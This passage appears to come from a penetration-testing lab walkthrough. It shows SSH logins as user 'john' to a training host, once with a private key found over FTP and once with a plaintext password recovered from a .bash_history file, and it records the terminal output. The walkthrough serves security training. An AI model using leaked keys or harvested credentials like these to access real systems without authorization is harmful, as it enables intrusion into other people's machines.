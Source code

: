 For SSH, we have two options that we can try to get access to the system. The first one is to use the SSH private key we found earlier. However, the private key itself doesn’t say to which user it belongs to. However, based on the ownership we saw in our FTP session, it seemed to belong to the user `john`. So, let’s try to use the private key for that user with the following command:

```shell
ssh -i id_rsa [email protected]

Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-135-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/pro>

 System information as of Wed Feb 26 08:31:18 PM UTC 2025

  System load:           0.0
  Usage of /:            76.5% of 13.68GB
  Memory usage:          25%
  Swap usage:            14%
  Processes:             198
  Users logged in:       0
  IPv4 address for eth0: 10.129.12.10
  IPv6 address for eth0: dead:beef::250:56ff:feb9:20ab

Expanded Security Maintenance for Applications is not enabled.

153 updates can be applied immediately.
96 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

7 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at <https://ubuntu.com/esm>

New release '24.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed Feb 26 20:28:00 2025 from 10.10.16.14
john@ubuntu:~$

```

It appears the SSH key is working after all. Since this is another method of gaining initial access, we need note it down and make a screenshot for proof. Next, let’s try to use the credentials ( `john:SuperSecurePass123`) we found in the `.bash_history` file.

```shell
ssh [email protected]

[email protected]'s password: SuperSecurePass123

Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-135-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/pro>

 System information as of Wed Feb 26 08:33:45 PM UTC 2025

  System load:           0.0
  Usage of /:            76.5% of 13.68GB
  Memory usage:          25%
  Swap usage:            14%
  Processes:             198
  Users logged in:       0
```